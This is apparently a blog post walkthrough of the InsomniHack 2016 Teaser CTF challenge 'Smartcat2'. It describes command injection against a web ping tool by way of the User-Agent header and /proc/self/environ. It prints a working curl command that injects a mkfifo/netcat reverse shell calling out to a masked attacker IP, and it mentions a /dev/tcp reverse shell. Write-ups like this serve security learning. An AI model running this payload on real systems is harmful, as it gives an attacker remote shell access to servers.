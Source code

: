 ```yaml
---
layout: blog_item
title:  "InsomniHack CTF Teaser - Smartcat2 Writeup"
date:   2024-01-18 14:00:10
author: Dhruv Ambaliya
description: 'InsomniHack Teaser CTF 2016, Smartcat2 challenge writeups.'
categories: [walkthroughs]
tags:
- burp
- 'command injection'
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa-solid fa-fire">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}


## Challenge Description

Exploit the web based ping command tool and capture the flag.  

![smartcat2 CTF](/img/blog/insomnihack/smartcat2.png)


## InsomniHack Smartcat 2

Due to filtering it was impossible to enter any white space in commands, making it far more difficult than the smartcat1 challenge. Initially I tried and failed to use a <code>/dev/tcp/ip/port</code> reverse shell.

### proc/self/environ Injection

The environment variable <code>HTTP_USER_AGENT=</code> which contains the contents of the <code>User-Agent:</code> field, had no filtering allowing for easy injection of a reverse shell.

Using command injection it was possible to execute <code>/proc/self/env</code> and successfully execute a reverse shell.

### Reverse Shell

Putting it all together using curl:

{% highlight bash %}
curl 'http://smartcat.insomnihack.ch/cgi-bin/index.cgi' --user-agent ';rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc XXX.XXX.XXX.XXX 80 >/tmp/f;exit' --data 'dest=%0ash</proc/self/environ'
{% endhighlight %}

The flag was not readable by <code>www-data</code>, the binary <code>readflag</code> was required to read the contents of the flag.

A couple of lines needed typing in to "confirm" you had an interactive shell, after entering the flag was displayed:

{% highlight bash %}

www-data@smartcat:/home/smartcat$ ./readflag
./readflag
Give me a...
Give me a...
... flag!
... flag!
Flag:
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\\!!!// .'_.'
       `.`.\\|//.'.'
        |`._`n'_.'|  hjw
        "----^----"

INS{shells_are _way_better_than_cats}

www-data@smartcat:/home/smartcat$

{% endhighlight %}

Thanks for the challenge :)
